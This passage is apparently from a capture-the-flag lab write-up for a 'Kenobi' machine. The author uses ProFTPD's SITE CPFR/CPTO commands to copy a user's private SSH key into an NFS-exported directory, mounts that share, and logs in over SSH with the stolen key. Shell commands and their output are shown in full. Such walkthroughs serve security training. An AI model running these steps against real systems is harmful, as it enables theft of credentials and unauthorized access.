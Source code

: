 We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nc 10.10.107.130 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.107.130]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/ssh_id
250 Copy successful
```
We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine

- `mkdir /mnt/kenobiNFS`
- `mount 10.10.107.130:/var /mnt/kenobiNFS`
- `ls -la /mnt/kenobiNFS`

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

```bash
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cp /mnt/kenobiNFS/tmp/ssh_id ~/Downloads
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[/mnt/kenobiNFS/tmp]
└─$ cd ~/Downloads                          
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ chmod 600 ssh_id
                                                                                                                                        
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ ssh -i ssh_id kenobi@10.10.107.130
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```
